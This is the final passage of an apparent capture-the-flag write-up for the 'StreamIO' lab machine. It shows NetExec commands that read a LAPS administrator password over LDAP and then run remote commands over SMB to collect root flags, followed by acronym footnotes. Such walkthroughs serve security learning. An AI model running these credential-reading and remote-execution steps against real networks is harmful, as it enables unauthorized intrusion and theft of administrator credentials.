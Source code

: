 Now that the `jdgodd` account is a member of the `Core Staff` group, we can use [NetExec](../../tools/active-directory/netexec-cme.md) to read the LAPS password and then get the `root.txt` flag 🚩 (Figure 38).

{% code overflow="wrap" %}
```bash
# Reading the LAPS password
nxc ldap 10.10.11.158 -u jdgodd -p jdgodd_pass -M laps
# writing the LAPS password to a file
echo ').9)2IKYoaCG[G' > dc_pass
# Attempting to read the root flag
nxc smb 10.10.11.158 -u administrator -p dc_pass -x 'type c:\users\administrator\desktop\root.txt'
# Checking what other users are on the box
nxc smb 10.10.11.158 -u administrator -p dc_pass -x 'dir c:\users\'
# Reading the root flag from Martin's directory
nxc smb 10.10.11.158 -u administrator -p dc_pass -x 'type c:\users\Martin\desktop\root.txt'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/streamio_root.png" alt=""><figcaption><p>Figure 38: Reading the LAPS password and snatching the root flag.</p></figcaption></figure>

[^1]: SQL Injection

[^2]: Brute Force Attack

[^3]: Local File Inclusion

[^4]: Structured Query Language Injection

[^5]: Brute Force Attack

[^6]: Local File Inclusion

[^7]: Elevation of Privileges

[^8]: Domain Controller

[^9]: Fully Qualified Domain Name

[^10]: Structured Query Language injection

[^11]: Web Application Firewall

[^12]: Database Management System

[^13]: Local File Inclusion

[^14]: Remote Code Execution

[^15]: Domain Controllers
